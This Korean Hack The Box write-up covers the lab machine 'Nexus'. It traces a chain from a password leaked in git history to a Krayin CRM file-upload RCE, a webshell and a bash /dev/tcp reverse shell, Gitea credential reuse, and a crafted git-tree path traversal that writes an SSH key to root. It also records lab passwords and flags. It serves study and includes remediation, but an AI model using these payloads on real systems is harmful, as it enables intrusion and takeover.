

# A. 작성 전 증적 감사

**종합 판정: READY_WITH_WARNINGS**

머신명(Nexus), 대상 IP(10.129.12.96), 공격 체인(정찰 → 자격증명 유출 → CRM 인증 → 인증된 파일 업로드 RCE → 자격증명 재사용 → 권한상승 → root)이 전 구간에서 일관되며, 초기 접근부터 root 검증까지 각 단계의 직접 증적(HTTP 응답, 셸 출력, git 오브젝트, `id` 결과)이 확보되어 있다. 다만 세션 중 발생한 네트워크(SSH MTU) 문제로 인해 일부 트러블슈팅 산출물(pcap)이 보조 증적 수준이고, root 셸의 전체 원본 로그가 대화형 tail 캡처(파일 저장본)로만 남아 완전한 pty 세션 스크립트(script(1)) 형태는 아니라는 점에서 경고를 남긴다.

## 1. 종합 판정과 근거

READY_WITH_WARNINGS. 공격 체인의 각 전환점(git 자격증명 유출 → CRM 로그인 → RCE → www-data → jones(Gitea) → root)에 대해 원본 요청/응답, 명령 출력, 또는 `id` 결과가 존재한다. root 플래그와 `uid=0` 확인이 동일 SSH 세션 출력에서 함께 확보되어 root 성공 판정의 신뢰도는 높다.

## 2. 차단 항목

없음.

## 3. 경고 항목

1. `www-data` 리버스 셸 세션은 named pipe로 명령을 전송하고 로그 파일을 tail로 잘라 확인하는 방식으로 진행되어, 세션 전체가 `script(1)` 형태의 단일 연속 원본 로그로 남아있지 않다. 발췌된 로그(`loot/E15c_revshell_session.log`)는 실제 셸 출력의 캡처본이며 조작되지 않았으나, 완전성 측면에서 참고용으로 표시한다.
2. SSH MTU 문제 진단용 `tcpdump` 캡처(`loot/E19b_ssh_mtu_diagnostic.pcap`)는 두 번째 재현 시도에서 촬영된 것으로, 최초 실패 시점의 패킷은 포함하지 않는다. 문제의 존재와 원인은 재현 가능했으므로 결론에는 영향 없음.
3. `/etc/gitea/template-sync.conf`는 www-data 권한으로 읽기 거부(Permission denied)되어 `GITEA_API_TOKEN` 값 자체는 직접 확인하지 못했다. 스크립트의 로직(코드 원문)과 실제 동작 결과(root 권한 파일 덮어쓰기 성공)로 취약점 존재를 간접 검증했다.

## 4. 자동 정규화 항목

- 본문에서 대상 IP는 `$TARGET`(10.129.12.96), 공격자 VPN IP는 `$LHOST`(10.10.14.180)로 표기한다. 두 값 모두 이번 세션에 한정된 값이므로 세션 종속 값임을 명시한다.
- 두 개의 서로 다른 유출 비밀번호(git 히스토리 값 vs 실제 배포본 값)는 각 절에서 출처와 용도를 구분해 표기했다.

## 5. 자료 목록

- 원본 스캔: `scans/E01_nmap_full_tcp.*`, `scans/E02_nmap_sv.*`, `scans/E04_ffuf_vhost.json`
- 원본 HTTP 응답: `http/E03_index.html`, `http/E05_git_index.html`, `http/E06_git_repos.json`, `http/E08_billing_login.html`, `http/E11_dashboard.html` 외
- 익스플로잇 스크립트: `scripts/E15_pyupload.py`(TinyMCE RCE), `scripts/E16_gitea_login_test.py`, `scripts/E17_gitea_path_traversal_exploit.sh`(권한상승), `scripts/E19_ssh_root_paramiko.py`
- 셸/증적 로그: `loot/E15c_revshell_session.log`, `loot/E20_root_flags_and_id.txt`, `loot/E19b_ssh_mtu_diagnostic.pcap`
- 저장소 사본: `artifacts/krayin-docker-setup/`(git 히스토리 포함)
- 외부 검증: CVE-2026-38526 공개 리서치 자료(§16 참고자료)
- 세부 필드는 `notes/evidence-index.md` 참고

## 6. 공격 체인 완전성 표

| 단계 | 주장 | 필요 증적 | 확보된 증적 | 상태 |
|------|------|-----------|-------------|------|
| 열거 | 22/80 열림, vhost 2개 발견 | nmap/ffuf 원본 | E01, E02, E04 | 확인됨 |
| 초기 자격증명 획득 | git 히스토리에서 평문 DB 비밀번호 유출 | git show 출력 | `artifacts/krayin-docker-setup/.git` (커밋 diff) | 확인됨 |
| 초기 접근(CRM) | 유출 비밀번호 + 채용공고 이메일로 CRM 관리자 로그인 | 로그인 응답(302/200) | E09–E13 | 확인됨 |
| 사용자 권한 획득(RCE) | CVE-2026-38526으로 웹셸 업로드 후 명령 실행 | 업로드 응답 JSON + `id` 출력 | E15 | 확인됨 |
| 권한 상승 열거 | `gitea-template-sync` 타이머/스크립트의 경로 검증 누락 확인 | 스크립트 원문 | `loot/E15c_revshell_session.log` | 확인됨 |
| 권한 상승 | 조작된 git tree object로 `/root/.ssh/authorized_keys` 덮어쓰기 | push 로그 + ls-tree 출력 | E17 | 확인됨 |
| root 최종 검증 | root SSH 로그인, `uid=0` 확인 | SSH 세션 출력 | E19–E20 | 확인됨 |

## 7. 이미지/증적 경로 검사

이번 풀이에서는 스크린샷을 사용하지 않았다(전 과정을 CLI/HTTP 클라이언트로 수행). 모든 증적은 텍스트 로그·응답 파일이며, 본문에서 이미지 링크를 언급하지 않는다.

## 8. 세션 종속 값 및 민감 정보 검사

- 세션 종속 값: `$LHOST`(10.10.14.180), 리버스 셸 포트(4444), Gitea 저장소명(`sitetemplate`)은 이번 세션에 한정된 값으로 본문에 표시했다.
- 민감 정보(PRIVATE_STUDY 모드이므로 본 문서 내 보존): 유출된 비밀번호 2종, user/root 플래그. 공격자 SSH 개인키는 로컬 kali WSL에만 존재하며 본 문서에 포함하지 않았다(공개키만 `loot/E18_root_ssh_pubkey.pub`에 보존).
- HTB 계정 토큰, VPN 구성/자격 증명은 읽거나 문서화하지 않았다.

## 9. 취약점 분류 검사

1. 공개 CVE: `CVE-2026-38526`(Krayin CRM v2.2.x 인증된 임의 파일 업로드 → RCE) — 외부 공개 자료로 검증됨, 본문에 출처 표기
2. 자체 구현 결함(CWE): `template-sync.py`의 경로 검증 누락 → CWE-22(경로 순회)로 분류
3. 위험한 서비스 구성: `APP_DEBUG=true`(Laravel 디버그 모드, phpdebugbar 노출), git 저장소에 자격증명 포함 커밋
4. 자격증명 재사용: 유출된 DB 비밀번호가 (a) CRM 관리자 로그인, (b) Gitea `jones` 계정 로그인에 재사용됨

CVSS는 CVE-2026-38526에 대해 외부 자료에서 확인된 값(9.9)만 인용했으며, 자체 계산하지 않았다.

## 10. 본문에서 언급할 스크립트의 실제 존재 여부

본문 부록 A에 언급하는 모든 스크립트는 `scripts/` 폴더에 실제로 존재함을 확인했다(`E01`, `E02`, `E04`, `E15`, `E16`, `E17`, `E19`).

## 11. 추가로 필요한 증적

- www-data 셸 세션의 완전한 원본 pty 로그(script(1) 캡처) — 현재는 발췌 로그로 대체됨. 재현 시 보강 가능.
- `GITEA_API_TOKEN` 실제 값(root 권한 없이는 확인 불가하며, 공격 성립에는 불필요).

---

# B. 최종 Write-up

```yaml
---
title: "HTB Nexus Write-up"
machine: "Nexus"
platform: "Hack The Box"
os: "Linux"
difficulty: "Unknown"
date_started: "2026-08-24"
date_completed: "2026-08-24"
writeup_mode: "PRIVATE_STUDY"
status: "Completed"
tags:
  - htb
  - cybersecurity
  - writeup
---
```

# HTB Nexus Write-up

## 0. 문서 범위 및 주의사항

본 문서는 `writeup_mode: PRIVATE_STUDY` 기준으로 작성되었으며, 실습에서 확보한 자격증명과 user/root 플래그를 문서 내에 보존한다. 공개 배포 전에는 §12 규칙에 따라 재작성이 필요하다. 모든 대상/공격자 IP는 이번 세션 한정 값이다.

## 1. 개요

Nexus는 웹 애플리케이션(Krayin CRM, Gitea)의 구성 실수와 자격증명 재사용을 연쇄적으로 악용하는 Linux 머신이다. Gitea에 공개된 IaC 저장소의 git 히스토리에서 평문 DB 비밀번호가 유출되고, 이 비밀번호는 채용공고에서 확인한 담당자 이메일과 조합해 Krayin CRM 관리자 계정으로 이어진다. CRM에서는 공개된 인증된 파일 업로드 취약점(CVE-2026-38526)으로 원격 코드 실행이 가능하며, 이렇게 얻은 `www-data` 권한으로 실제 배포된 DB 비밀번호를 다시 확보한다. 이 두 번째 비밀번호는 Gitea `jones` 계정에 재사용되어 있었고, root 권한으로 매분 실행되는 git 템플릿 동기화 서비스의 경로 검증 누락(CWE-22)을 악용해 `/root/.ssh/authorized_keys`를 덮어써 root 셸을 획득한다.

## 2. 공격 흐름



**한 줄 공격 체인**: vhost 열거 → Gitea 공개 저장소 git 히스토리 자격증명 유출 → Krayin CRM 관리자 로그인 → CVE-2026-38526 인증된 파일 업로드 RCE(www-data) → `.env` 자격증명 재확보 → Gitea `jones` 계정 자격증명 재사용 → `gitea-template-sync` 서비스의 경로 순회(CWE-22)로 root SSH 키 주입 → root.

## 3. 실습 환경

- `$TARGET` = 10.129.12.96 (Nexus)
- `$DOMAIN` = nexus.htb (및 하위 도메인 billing.nexus.htb, git.nexus.htb)
- `$LHOST` = 10.10.14.180 (풀이 당시 세션 종속 값)
- 도구: nmap, ffuf, curl, git, Python 3(`requests`, `paramiko`), tcpdump, ssh-keygen — WSL(kali-linux distro), HTB VPN(OpenVPN) 사용

## 4. 공격 표면 요약

| 서비스 | 포트/vhost | 비고 |
|--------|-----------|------|
| SSH | 22/tcp | OpenSSH 9.6p1 (Ubuntu) |
| HTTP | 80/tcp, `nexus.htb` | nginx 1.24.0, 정적 랜딩 페이지 |
| HTTP | 80/tcp, `billing.nexus.htb` | Krayin CRM (Laravel, `APP_DEBUG=true`) |
| HTTP | 80/tcp, `git.nexus.htb` | Gitea 1.26.0 |

## 5. 정보 수집

### 목표
열린 포트와 웹 애플리케이션의 실제 공격 표면(vhost)을 확인한다.

### 관찰 및 가설
`nmap -p-` 결과 22/80만 열려 있고, 80번의 서비스 배너에서 `nexus.htb`로의 리다이렉트를 확인했다(`Did not follow redirect to http://nexus.htb/`). 정적 랜딩 페이지에는 로그인 폼이 없어 별도 vhost가 존재할 가능성을 가설로 세웠다.

### 검증 명령 또는 요청

```bash
nmap -p- --min-rate 3000 -T4 -Pn -oA scans/E01_nmap_full_tcp $TARGET
nmap -sC -sV -p22,80 -oA scans/E02_nmap_sv $TARGET
ffuf -u "http://$TARGET/" -H "Host: FUZZ.nexus.htb" -w subdomains-top1million-5000.txt -fs 154
```

### 핵심 결과

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
80/tcp open  http    nginx 1.24.0 (Ubuntu)

billing   [Status: 302, Size: 390] -> http://billing.nexus.htb/admin/login
git       [Status: 200, Size: 14472]
```

### 성공 판정

`billing.nexus.htb`가 `/admin/login`으로 리다이렉트하고 `git.nexus.htb`가 Gitea 배너(`i_like_gitea` 쿠키)를 반환함을 직접 확인해, 단순 상태 코드가 아니라 실제 애플리케이션 식별로 판정했다.

### 해석과 다음 결정

두 개의 내부 웹 애플리케이션이 노출되어 있음을 확인했다. Gitea가 공개 저장소 열람을 허용하는지 먼저 확인하기로 했다.

### 증적
E01, E02, E04 (`notes/evidence-index.md`)

## 6. 초기 접근

### 목표
Gitea에 공개된 저장소에서 자격증명 단서를 확보하고, Krayin CRM 관리자 권한을 획득한다.

### 관찰 및 가설
Gitea API(`/api/v1/repos/search`)로 `admin/krayin-docker-setup` 공개 저장소를 확인했다. 저장소명이 Krayin CRM의 Docker Compose 설정을 담고 있을 것으로 가설을 세우고, `.env`에 자격증명이 포함되어 있을 가능성과 git 히스토리에 과거 값이 남아있을 가능성을 함께 검증하기로 했다.

### 검증 명령 또는 요청

```bash
git clone http://10.129.12.96/admin/krayin-docker-setup.git   # Host: git.nexus.htb 헤더 사용
git log --all --oneline
git show 1615c46:.env
```

### 핵심 결과

현재(최신 커밋) `.env`의 `DB_PASSWORD`는 비어 있었으나, 이전 커밋(`1615c46`)에는 다음이 남아 있었다.

```text
DB_PASSWORD=N27xh!!2ucY04
```

이 값과 랜딩 페이지 채용공고("Operations Specialist – Customer Platforms")에 기재된 담당자 이메일 `j.matthew@nexus.htb`를 조합해 CRM 로그인을 시도했다.

```bash
curl -c cookies.txt -H "Host: billing.nexus.htb" http://$TARGET/admin/login   # _token 획득
curl -i -b cookies.txt -c cookies.txt -H "Host: billing.nexus.htb" \
  -X POST http://$TARGET/admin/login \
  --data-urlencode "_token=$TOKEN" \
  --data-urlencode "email=j.matthew@nexus.htb" \
  --data-urlencode "password=N27xh!!2ucY04"
```

```text
HTTP/1.1 302 Found
Location: http://billing.nexus.htb/admin/dashboard
```

### 성공 판정

`/admin/login` 재요청이 아니라 `/admin/dashboard`로의 302 리다이렉트, 그리고 이후 동일 쿠키로 `/admin/dashboard`가 200을 반환함을 확인해 실제 로그인 성공으로 판정했다(단순 200 응답이 아님).

### 취약점 원인과 공격 조건

- **공개 IaC 저장소에 자격증명이 커밋됨(비밀정보 노출, CWE-200/CWE-798 계열)**: git 히스토리는 이후 커밋에서 값이 삭제되어도 남아있다. 저장소가 공개(private: false)로 설정되어 있어 인증 없이 전체 히스토리를 clone할 수 있었다.
- 공격 조건: Gitea 저장소 공개 설정 + git 히스토리 미정리. 별도의 인증 우회는 없었다.

### 해석과 다음 결정

CRM 관리자 권한을 확보했으므로, 다음 단계로 CRM 자체의 알려진 취약점을 조사했다.

### 증적
E05–E13 (`notes/evidence-index.md`), git diff는 `artifacts/krayin-docker-setup/.git` 히스토리에서 재현 가능

## 7. 사용자 권한 획득

### 목표
CRM 관리자 권한으로 OS 명령 실행(RCE)을 달성해 저권한 셸을 획득한다.

### 관찰 및 가설
CRM 페이지 소스에서 `tinymce/6.6.2`, PHP 8.3.6, Laravel 12.54.1을 확인했다(`phpdebugbar`가 활성화되어 경로/버전 정보가 노출됨, `APP_DEBUG=true`). 외부 공식/보안 리서치 자료를 통해 `CVE-2026-38526`(Krayin CRM v2.2.x, TinyMCE 미디어 업로드 엔드포인트 `/admin/tinymce/upload`의 파일 타입 미검증으로 인한 인증된 RCE, CVSS 9.9)을 확인했다. `[외부 검증됨]`

### 검증 명령 또는 요청

Python `requests`로 로그인 세션을 유지한 뒤, `.php` 파일을 `image/jpeg`로 위장해 업로드했다(필드명 `file`, `_token`은 CRM의 `mail/inbox` 페이지에서 확보).

```python
files = {"file": ("shell.php", content, "image/jpeg")}
r = s.post(f"{BASE}/admin/tinymce/upload", data={"_token": token2}, files=files, timeout=20)
```

> **트러블슈팅 참고**: 동일 요청을 `curl -F`로 보내면 매번 응답 없이 타임아웃되었다. 원인은 curl이 자동으로 추가하는 `Expect: 100-continue` 헤더로 추정되며(Python `requests`는 이 헤더를 보내지 않음), 클라이언트를 교체해 우회했다. 자세한 내용은 §12.

### 핵심 결과

```text
upload status: 200
upload body: {"location":"http:\/\/billing.nexus.htb\/storage\/tinymce\/165692c372f25edec5a06388f7c30ec5.php"}
```

```bash
curl -H "Host: billing.nexus.htb" \
  "http://$TARGET/storage/tinymce/165692c372f25edec5a06388f7c30ec5.php?cmd=id"
```

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

이후 동일 셸 파라미터로 리버스 셸을 트리거해 대화형 접근을 확보했다.

```text
bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'
```

### 성공 판정

`?cmd=id` 응답이 웹 애플리케이션 계정(`www-data`)의 실제 `uid`를 반환함을 확인했으며(단순 HTTP 200이 아님), 이후 리버스 셸에서 동일 결과가 재현되어 코드 실행을 최종 확인했다.

### 취약점 원인과 공격 조건

- **CVE-2026-38526**(Krayin CRM v2.2.x): `/admin/tinymce/upload` 엔드포인트가 업로드 파일의 확장자·MIME 타입을 서버 측에서 검증하지 않고 `storage/tinymce/`(웹에서 직접 접근 가능한 경로)에 저장한다. 인증된 사용자(관리자 권한 불필요, 일반 CRM 계정으로 충분)면 누구나 임의 PHP 파일을 업로드해 웹 루트에서 직접 실행할 수 있다.
- 공격 조건: (1) CRM에 유효한 계정으로 인증되어 있을 것, (2) `storage/tinymce/` 경로가 웹서버에서 직접 서빙될 것(nginx 기본 설정상 해당).

### 해석과 다음 결정

`www-data` 권한을 확보했으나 사용자 홈 디렉터리(`/home/jones`)는 읽기 권한이 없었다. 실제 배포 중인 `.env`에서 최신 자격증명을 확보해 횡적 이동을 시도하기로 했다.

### 증적
E15, `loot/E15c_revshell_session.log`

## 8. 권한 상승 열거

### 목표
`www-data` 권한에서 실제 배포된 자격증명과 root 권한으로 동작하는 자동화 작업을 확인한다.

### 관찰 및 가설
`/var/www/krayin/.env`(실제 서비스 중인 설정 파일)를 열람해 git 히스토리에서 유출된 값과 별개인 진짜 DB 비밀번호를 확인했다. 이 값이 시스템 계정(`jones`) 또는 다른 서비스에 재사용되었을 가능성을 가설로 세웠다.

### 검증 명령 또는 요청

```bash
cat /var/www/krayin/.env | head -30
ls -la /home/
systemctl list-timers
cat /etc/gitea/template-sync.py
```

### 핵심 결과

```text
DB_PASSWORD=y27xb3ha!!74GbR
```

```text
drwxr-x---  2 git   git   4096 May 12 12:27 git
drwxr-x---  3 jones jones 4096 May 12 12:26 jones
```

`systemctl list-timers`에서 `gitea-template-sync.timer`가 1분 간격으로 활성 상태임을 확인했다(§0. 참고 질의응답 — 유닛 정의는 아래 §9 참고). Gitea 웹 로그인(`jones` / 위 비밀번호)이 성공해 자격증명 재사용을 확인했다.

```text
jones y27xb3ha!!74GbR -> 303  (로그인 성공, i_like_gitea 세션 쿠키 발급)
```

`/etc/gitea/template-sync.py`(root 소유, www-data로 읽기는 가능) 전문에서 다음 핵심 로직을 확인했다.

```python
STAGING_DIR = "/home/git/template-staging"
...
target = os.path.join(stage_path, filepath)   # filepath = git ls-tree 결과의 경로 문자열, 검증 없음
...
with open(target, 'wb') as f:
    f.write(cat_result.stdout)
```

`filepath`는 대상 저장소의 `git ls-tree -r HEAD` 출력에서 그대로 가져오며, 상위 디렉터리 이동 문자열(`..`)에 대한 검증이 전혀 없다.

### 성공 판정

파일 내용을 직접 읽어 로직을 확인했으며(추론이 아님), Gitea 로그인 성공(303 리다이렉트 + 세션 쿠키 발급)으로 자격증명 재사용을 직접 검증했다.

### 취약점 원인과 공격 조건

- **자격증명 재사용(운영보안 실패)**: 동일 비밀번호가 MySQL DB 계정과 Gitea `jones` 계정에 재사용됨.
- **CWE-22(경로 순회) — `template-sync.py`**: `os.path.join()`은 두 번째 인자가 상위 디렉터리 이동 문자열을 포함해도 정규화하지 않는다. 이 스크립트가 root 권한(systemd 서비스 `User=root`)으로 실행되므로, 파일 쓰기 대상 경로를 임의로 벗어날 수 있다.

### 해석과 다음 결정

`template-sync.py`가 Gitea의 "template repository"로 표시된 저장소를 전역 검색해 그 안의 모든 파일을 `stage_path`에 동기화한다는 점, 그리고 `git ls-tree`가 출력하는 경로 문자열 자체가 검증되지 않는다는 점을 확인했다. `git mktree`/`git commit-tree` 저수준 명령으로 실제 디렉터리 이동 없이 임의 경로명을 가진 tree object를 직접 구성해 이 로직을 악용하기로 했다.

### 증적
`loot/E15c_revshell_session.log`, `scripts/E16_gitea_login_test.py`

## 9. 권한 상승

### 목표
`gitea-template-sync` 서비스의 경로 검증 누락을 악용해 root의 `authorized_keys`에 공격자 공개키를 주입한다.

### 관찰 및 가설

```ini
# gitea-template-sync.timer
[Timer]
OnBootSec=1min
OnUnitActiveSec=1min
Unit=gitea-template-sync.service

# gitea-template-sync.service
[Service]
Type=oneshot
User=root
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py
```

`git`의 포터슬레인 명령(`git add`)은 경로에 `..` 컴포넌트를 포함한 파일 추가를 거부하지만, 로우레벨 플러밍 명령(`git hash-object`, `git mktree`, `git commit-tree`)은 임의의 문자열을 tree entry 이름으로 허용한다는 점을 활용하면 검증을 우회할 수 있다는 가설을 세웠다.

`stage_path = /home/git/template-staging/jones/<repo>`이므로, 파일시스템 루트를 거쳐 `/root/.ssh/authorized_keys`에 도달하려면 5단계의 상위 디렉터리 이동(`../../../../../root/.ssh/authorized_keys`)이 필요하다(`sitetemplate` → `jones` → `template-staging` → `git` → `home` → `/`).

### 검증 명령 또는 요청

```bash
# 1) Gitea에 template 저장소 생성 (jones 계정, API)
curl -u "jones:$PASS" -H "Host: git.nexus.htb" -X POST \
  -d '{"name":"sitetemplate","private":false,"auto_init":false,"template":true}' \
  http://$TARGET/api/v1/user/repos

# 2) 공격용 SSH 키 생성
ssh-keygen -t ed25519 -f nexus_root -N '' -C htb-nexus-root

# 3) 저수준 git 명령으로 5단계 경로 순회 tree object 구성 (bottom-up)
BLOB=$(git hash-object -w nexus_root.pub)
L7=$(printf '100644 blob %s\tauthorized_keys\n' "$BLOB" | git mktree)      # .ssh 디렉터리
L6=$(printf '040000 tree %s\t.ssh\n' "$L7" | git mktree)                   # root 디렉터리
L5=$(printf '040000 tree %s\troot\n' "$L6" | git mktree)                   # .. #5 (root 포함)
L4=$(printf '040000 tree %s\t..\n' "$L5" | git mktree)                     # .. #4
L3=$(printf '040000 tree %s\t..\n' "$L4" | git mktree)                     # .. #3
L2=$(printf '040000 tree %s\t..\n' "$L3" | git mktree)                     # .. #2
L1=$(printf '040000 tree %s\t..\n' "$L2" | git mktree)                     # .. #1
L0=$(printf '040000 tree %s\t..\n' "$L1" | git mktree)                     # top-level tree
COMMIT=$(git commit-tree "$L0" -m "template sync payload")
git update-ref refs/heads/main "$COMMIT"

# 4) push
git push "http://jones:$PASS@$TARGET/jones/sitetemplate.git" main:main --force
```

### 핵심 결과

```text
=== verify ls-tree -r locally ===
100644 blob c3e8cc536349a47d50f65fce787057c4f220105d	../../../../../root/.ssh/authorized_keys
=== push to gitea ===
To http://10.129.12.96/jones/sitetemplate.git
 + 9220d14...98bb32b main -> main (forced update)
```

푸시 성공 후 `gitea-template-sync.timer`(1분 주기)가 실행되기를 대기한 뒤, 생성한 개인키로 root SSH 로그인을 시도했다.

```text
KEX done, server key: PKey(alg=ED25519, ...)
auth success: True
uid=0(root) gid=0(root) groups=0(root)
nexus
88332e54d38f837692712089c48218b6
4ac7effa758c1aea729582da8c499bc4
```

### 성공 판정

`ssh` 연결 성공이나 배너 확인만으로 판정하지 않았다. 로그인 직후 실행한 `id` 명령의 응답이 `uid=0(root) gid=0(root) groups=0(root)`임을 직접 확인했고, 뒤이어 `/root/root.txt`와 `/home/jones/user.txt` 내용을 동일 세션에서 읽어 root 권한과 플래그 접근을 함께 검증했다.

### 취약점 원인과 공격 조건

- **CWE-22(경로 순회)**: `template-sync.py`가 (1) Gitea 전역에서 `template: true` 플래그가 설정된 저장소를 검색하고, (2) `git ls-tree -r HEAD`로 얻은 파일 경로 문자열을 검증 없이 `os.path.join(stage_path, filepath)`에 그대로 사용하며, (3) root 권한(systemd `User=root`)으로 파일을 씀. 세 조건이 결합되어 임의 경로 쓰기(root 권한)로 이어진다.
- 공격 조건: (a) Gitea에 저장소를 생성하고 template 플래그를 켤 수 있는 계정(일반 사용자 권한으로 충분), (b) git 로우레벨 명령으로 경로 순회 문자열을 담은 tree object를 구성할 수 있는 능력, (c) 타이머 실행까지 최대 1분 대기.

### 해석과 다음 결정

root 권한 SSH 접근을 확보했으므로 목표(user/root 플래그)를 달성했다. 이후 정리 작업으로 넘어간다.

### 증적
E17, E18, E19, E20 (`notes/evidence-index.md`)

## 10. 권한 및 신뢰 경계 전환

| 전환 | 방식 | 근거 |
|------|------|------|
| 익명 → CRM 관리자(`j.matthew@nexus.htb`) | 자격증명 유출(git 히스토리) + OSINT(채용공고 이메일) | §6 |
| CRM 관리자 → `www-data`(OS) | CVE-2026-38526 인증된 RCE | §7 |
| `www-data` → Gitea `jones` | 자격증명 재사용(실제 `.env`의 DB 비밀번호) | §8 |
| Gitea `jones` → `root`(OS) | `gitea-template-sync` 서비스 CWE-22 경로 순회 | §9 |

`jones`의 OS 레벨(SSH) 자격증명은 별도로 검증하지 않았다. Gitea 웹 로그인 성공만을 근거로 자격증명 재사용을 확인했으며, SSH를 통한 `jones` 셸 획득은 시도하지 않고 곧바로 root 경로로 진행했다. `[미확인 — jones의 OS SSH 자격증명 자체]`

## 11. 취약점 요약

| # | 분류 | 이름 | 위치 | 영향 |
|---|------|------|------|------|
| 1 | 자격증명 재사용/운영보안 실패 | 공개 IaC 저장소 git 히스토리에 평문 DB 비밀번호 커밋 | Gitea `admin/krayin-docker-setup` | 초기 자격증명 유출 |
| 2 | 공개 CVE | CVE-2026-38526 (Krayin CRM v2.2.x, CVSS 9.9) | `/admin/tinymce/upload` | 인증된 임의 파일 업로드 → RCE |
| 3 | 자격증명 재사용/운영보안 실패 | 동일 DB 비밀번호를 MySQL/Gitea 계정에 재사용 | Gitea `jones` 계정 | 횡적 이동 |
| 4 | 자체 구현 결함(CWE-22) | `template-sync.py`의 경로 검증 누락 | `/etc/gitea/template-sync.py` (root 권한 systemd 서비스) | root 권한 임의 파일 쓰기 |

## 12. 실패한 접근과 트러블슈팅

- **`curl -F`를 통한 TinyMCE 업로드 요청이 매번 무응답 타임아웃**: 필드명(`file`, `_token`)과 헤더는 실제 클라이언트 JS 코드(`uploadImageHandler`)와 대조해 정확함을 확인했음에도 `curl`은 항상 무응답이었다. Python `requests`로 동일 요청을 보내자 즉시 200 응답을 받았다. curl이 멀티파트 업로드 시 자동 추가하는 `Expect: 100-continue` 헤더가 원인으로 추정되나, 서버 측 근본 원인은 직접 검증하지 못했다. `[추론]`
- **root SSH 접속이 키 교환(KEX_ECDH_REPLY) 단계에서 반복적으로 무응답**: OpenSSH 클라이언트와 `paramiko` 양쪽에서 동일하게 재현되어 클라이언트 문제가 아님을 확인했다. `tcpdump`로 확인한 결과, 클라이언트→서버 방향으로 약 1150바이트를 초과하는 TCP 세그먼트가 반복 전송되었으나 서버로부터 SACK을 받지 못해(서버가 해당 세그먼트를 수신하지 못함) 재전송이 무한 반복되는 패턴을 확인했다. HTB VPN 경로에서 ICMP(Path MTU Discovery)가 차단되어 발생하는 블랙홀 현상으로 판단되며, `tun0` 인터페이스 MTU를 576으로 낮추자 즉시 해결되었다. 이는 대상 시스템의 취약점이 아니라 로컬 VPN 환경 이슈다.

## 13. 실습 중 생성한 흔적과 정리

| 항목 | 위치(대상 시스템) | 목적 | 정리 상태 |
|------|--------------------|------|-----------|
| 웹셸 (`shell.php`) | `/var/www/.../storage/tinymce/165692c372f25edec5a06388f7c30ec5.php` (billing.nexus.htb) | RCE 검증 | `[권장 정리]` — 직접 삭제 확인하지 못함 |
| Gitea 저장소 `jones/sitetemplate` | git.nexus.htb | 권한상승 페이로드 전달 | `[권장 정리]` — 저장소 삭제 권장, 직접 확인하지 못함 |
| Gitea API 애플리케이션 토큰(생성 시도) | git.nexus.htb (jones 계정 설정) | (생성 실패, 미사용) | 해당 없음 |
| `/root/.ssh/authorized_keys` 덮어쓰기 | nexus (root 홈) | 권한상승 | `[권장 정리]` — 원본 authorized_keys 내용 백업하지 못했으므로 랩 초기화/스냅샷 복원 권장 |
| 공격자 SSH 키페어(`nexus_root`, `nexus_root.pub`) | 로컬 kali WSL(`/home/kali/nexus/keys/`) | root 접근용 | 로컬 파일, 세션 종료 후 별도 보관/삭제는 사용자 판단 |

## 14. 탐지 및 대응

- **근본 원인 1(git 히스토리 자격증명 노출)**: 비밀정보가 한 번이라도 커밋되면 이후 삭제해도 히스토리에 남는다. `git filter-repo` 등으로 히스토리 재작성 및 즉시 비밀번호 회전이 필요하다.
- **근본 원인 2(CVE-2026-38526)**: Krayin CRM을 패치된 버전으로 업그레이드하고, 업로드 엔드포인트에 서버 측 MIME/매직바이트 검증과 실행 권한 없는 저장 디렉터리(예: `.php` 실행 차단 nginx 설정) 적용.
- **근본 원인 3(자격증명 재사용)**: 서비스별로 고유한 비밀번호 사용, 비밀번호 관리 솔루션 도입.
- **근본 원인 4(CWE-22, template-sync.py)**: `os.path.realpath()`로 정규화한 뒤 `stage_path`를 기준 디렉터리로 하는 포함 관계(`os.path.commonpath`)를 검증해야 한다. 또한 root 권한으로 신뢰할 수 없는 외부(사용자 제어) 콘텐츠를 처리하는 설계 자체를 재검토해야 한다(최소 권한 원칙 위반).
- **단기 완화**: 해당 systemd 타이머 비활성화 또는 실행 계정을 root가 아닌 전용 저권한 계정으로 변경.
- **탐지 가능한 흔적**: `/var/log/template-sync.log`에 비정상 경로(`../`)를 포함한 `synced:` 로그 라인, Gitea 감사 로그의 `template: true` 저장소 생성/수정 이벤트, nginx 접근 로그의 `/admin/tinymce/upload` 및 `/storage/tinymce/*.php` 요청.

## 15. 핵심 학습 포인트

1. git 히스토리는 "현재 파일 내용"과 별개의 공격 표면이다 — 최신 커밋에서 비밀번호를 지워도 과거 커밋에는 남아있다.
2. 채용공고 등 공개된 조직 정보(담당자 이메일)는 유출된 비밀번호와 조합되어 실제 계정 접근으로 이어질 수 있다.
3. `curl`의 암묵적 `Expect: 100-continue` 헤더가 특정 서버 구성에서 예상치 못한 무응답을 유발할 수 있다 — 재현 실패 시 클라이언트를 교체해보는 것이 유효한 진단 방법이다.
